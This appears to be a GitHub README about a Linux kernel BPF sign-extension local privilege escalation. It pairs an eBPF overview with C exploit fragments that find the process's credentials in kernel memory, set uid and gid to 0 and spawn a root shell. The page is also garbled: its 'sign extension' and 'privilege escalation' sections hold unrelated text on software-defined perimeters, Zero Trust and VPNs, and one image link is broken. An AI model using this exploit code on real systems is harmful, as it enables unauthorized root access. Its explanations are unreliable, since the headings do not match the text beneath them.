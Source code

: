 # Linux Kernel - BPF Sign Extension Local Privilege Escalation

![alt text](https://github.com/samaleyadeh/images/blob/master/DY42GCGV4AA1_8F.jpg) 


## What is BpF?
Software defined perimeter [SDP](https://sdn.ieee.org/newsletter/march-2017/software-defined-perimeters-an-architectural-view-of-sdp)

As you may know, the user layer and kernel layer of Linux are isolated. If you want the kernel to execute the user's code, you need to write the kernel module which can only be loaded by the root user. The BPF (Berkeley Packet Filter) provides a bridge between code and data transfer between the user and the kernel. The user can use the eBPF instruction bytecode to deliver code to the kernel, and trigger the kernel to execute the user-provided code through events (such as writing data to the socket), and share the data with the kernel in the form of map (key - value). The user layer writes data to the map, and the kernel layer fetches data from the map, and vice versa. 
The original intention of BPF is to filter the network at the bottom, and later it can easily inject code into the kernel. It is widely used for packet capture, kernel probe, Performance monitoring and other fields. 
eBPF virtual instruction system
The eBPF virtual instruction system belongs to Reduced Instruction Set Computer (RISC) and has 10 64-bit virtual registers, r0-r10. r0 stores the return value, r1 to r5 is reserved for arguments, r6 to r9 is reserved for storing callee saved registers and r10 stores read-only frame pointer. In actual operation, the virtual machine corresponds these 10 registers to the 10 physical registers of the hardware CPU: R0 - rax, R1 - rdi , R2 - rsi , R3 - rdx , R4 - rcx , R5 - r8 , R6 - rbx , R7 - r13 , R8 - r14 , R9 - r15 , R10 – rbp(frame pointer).
Each BPF instruction on x64 platform is of 64-bit long. The format of each instruction is as follows:

![alt text](://github.com/samaleyadeh/images/blob/master/zero-day-attack-1024x413.jpg) 


## What is Sign Extension?

![alt text](https://github.com/LiYangHart/SDP_images/blob/master/ZeroTrust%20arch.jpg) 

Conventional security models operate on the outdated assumption that everything on the inside of an organization’s network can be trusted, but given increased attack sophistication and insider threats, new security measures needed to be taken to stop them from spreading once inside. Introducing the concept of [Zero Trust](https://www.paloaltonetworks.com/cyberpedia/what-is-a-zero-trust-architecture) a new movment that introduced SDP as one of the solutions.

## What is Privilege Escalation

![alt text](https://github.com/LiYangHart/SDP_images/blob/master/WhySDP-01.png.pagespeed.ce.iEcF-GmSgR.png) 
Enterprises have long relied on virtual private networks (VPNs) to connect mobile or remote users to applications and other network resources. But, traditional VPNs are poorly suited for the shift to IaaS and SaaS. They rely on appliances, such as firewalls or VPN concentrators, binding mobile users to specific locations. Such an architecture adds latency and creates a chokepoint for cloud access. And, to even reach the VPN gateways, users must rely on the unpredictable Internet. Once connected through a VPN, users are trusted with access to all resources on the network, increasing the risk of malware propagation and data breach. Overall, legacy VPN architectures expose enterprise to attacks and adversely impact the user experience, especially when accessing cloud applications.




```C
Struct bpf_insn { 
    __u8 code;         /* opcode */ 
    __u8 dst_reg: 4 ;     /* dest register */ 
    __u8 src_reg: 4 ;     /* source register */ 
    __s16 off;         /* signed offset */ 
    __s32 imm;         /* signed immediate constant */ 
};
```





```C

#define BPF_MOV32_IMM(DST, IMM) \ 
    (( struct bpf_insn) { \ 
        .code   = BPF_ALU | BPF_MOV | BPF_K, \ 
        .dst_reg = DST, \ 
        .src_reg = 0 , \ 
        .off    = 0 , \ 
        .imm    = IMM })

```


```C
uint64_t fp, sp, task_struct, credptr, uidptr;

	fp = __get_fp();
	if (fp < PHYS_OFFSET)
		__exit("bogus fp");
	
	sp = get_sp(fp);
	if (sp < PHYS_OFFSET)
		__exit("bogus sp");
	
	task_struct = __read(sp);

	if (task_struct < PHYS_OFFSET)
		__exit("bogus task ptr");

	printf("task_struct = %lx\n", task_struct);
```


```C
	credptr = __read(task_struct + CRED_OFFSET); // cred

	if (credptr < PHYS_OFFSET)
		__exit("bogus cred ptr");

	uidptr = credptr + UID_OFFSET; // uid
	if (uidptr < PHYS_OFFSET)
		__exit("bogus uid ptr");

	printf("uidptr = %lx\n", uidptr);
	__write(uidptr, 0); // set both uid and gid to 0

	if (getuid() == 0) {
		printf("spawning root shell\n");
		system("/bin/bash");
		exit(0);
	}

	__exit("not vulnerable?");
}
```






